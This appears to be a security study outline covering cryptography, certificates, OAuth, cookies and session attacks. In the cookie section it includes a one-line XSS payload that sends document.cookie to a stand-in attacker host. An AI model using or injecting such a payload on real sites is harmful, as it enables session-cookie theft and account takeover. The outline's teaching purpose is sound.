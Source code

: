 # Cryptography, authentication, identity

Encryption vs Encoding vs Hashing vs Obfuscation vs Signing

    Be able to explain the differences between these things.
    Various attack models (e.g. chosen-plaintext attack).

Encryption standards + implementations

    RSA (asymmetrical).
    AES (symmetrical).
    ECC (namely ed25519) (asymmetric).
    Chacha/Salsa (symmetric)
    
Asymmetric vs symmetric

    Asymmetric is slow, but good for establishing a trusted connection.
    Symmetric has a shared key and is faster. Protocols often use asymmetric to transfer symmetric key.
    Perfect forward secrecy - eg Signal uses this.

Ciphers

    Block vs stream ciphers.
    Block cipher modes of operation.
    AES-GCM

Trusted Platform Module

    (TPM)
    Trusted storage for certs and auth data locally on device/host.
    Secure cryptoprocessor designed to secure hardware through integrated cryptographic keys
    Uses:
        Platform integrity
        Disk encryption
        Password Protection
    Different types => Discrete(dedicated chip), Integrated(part of another chip), Firmware, Hypervisor(virtual), Software(emulators)

Integrity and authenticity primitives

    Hashing functions, e.g. MD5, Sha-1, BLAKE. Used for identifiers, very useful for fingerprinting malware samples.
    Message Authentication Codes (MACs).
    Keyed-hash MAC (HMAC).
        - Keyed hash of data
        - Provides collision resistance
    Length-Extension attack - Attacker can use Hash(message1) and the length of message1 to calculate Hash(message1 ‖ message2) for an attacker-controlled message2, without needing to know the content of message1

Entropy

    PRNG (pseudo random number generators).
    Entropy buffer draining.
    Methods of filling entropy buffer.

Certificates

    What info do certs contain, how are they signed?
    Generate CSR request providing following details
        - FQDN of server
        - Legal org name
        - Legal Org unit
        - Address
        - Email
        - Pulic Key of the request generator
        - Info about key-type and length
    CSR == Base-64 encoded PKCS#10
    X.509 v3 digital certificate is as follows :
        Certificate
            Version Number
            Serial Number
            Signature Algorithm ID
            Issuer Name
            Validity period
                Not Before
                Not After
            Subject name
            Subject Public Key Info
                Public Key Algorithm
                Subject Public Key
            Issuer Unique Identifier (optional)
            Subject Unique Identifier (optional)
            Extensions (optional)
                ...
        Certificate Signature Algorithm
        Certificate Signature
    Common file names for X.509
        .pem – (Privacy-enhanced Electronic Mail) Base64 encoded DER certificate
        .cer, .crt, .der – usually in binary DER form, but Base64-encoded certificates are common too
        .p7b, .p7c – PKCS#7 SignedData structure without data, just certificate(s) or CRL(s)
        .p12 – PKCS#12, Cert(s) (public) + private keys (password protected)
        
    Look at DigiNotar
        Large-scale MitM attack against Gmail users in Iran
        Valid wildcard certificate, issued by DigiNotar, for *.google.com
        Other high-value domains, including Yahoo, Mozilla
        All 8 servers that managed CAs were compromised
        DigiNotar had its network highly segmented and many segments were private
        But no strict rules inside its network
    Comodo hack 2011
        https://www.comodo.com/Comodo-Fraud-Incident-2011-03-23.html

O-auth

    Bearer tokens, this can be stolen and used, just like cookies.
    3 Players
        1. End user
        2. API
        3. Resource provider (RP)
    Flow
        - API asks for auth from RP providing user's verified identity
        - After authenticating API, RP provides access token
        - Tokens have scopes defined to access limited information for API
    Vulnerabilities in Client application
        1. Improper implementation of implicit grant type - 
        2. Flawed CSRF implementation
    Vulnerabilities in OAuth service
        1. Leaking authorization codes and access tokens LABS
        2. Flawed scope validation
        3. Unverified user registration

Auth Cookies

    Client side.
    Client side maintain state
        - Local storage : XSS vulnerability [ document.write('<img src="https://yourserver.evil.com/collect.gif?cookie=' + document.cookie + '" />') ]
        - Cookies : CSRF vulnerability
    Session Hijacking - Stealing cookies and impersonating user
    Session fixation - 
        The attacker gets cookie from a web page
        Sends to the victim
        Victim logins using the cookie of the attacker
        If the cookie is not changed when a user logs in
        Attacker could be able to impersonate the user using the cookie
    Session donation
        Attacker sends their session to victim
        Victim adds missing info to the session

Sessions

    Server side.

Auth systems

    SAMLv2o.
    OpenID.

Biometrics

    Can't rotate unlike passwords.

Password management

    Rotating passwords (and why this is bad).
    Different password lockers.

U2F / FIDO

    Eg. Yubikeys.
    Helps prevent successful phishing of credentials.
    Compare and contrast multi-factor auth methods
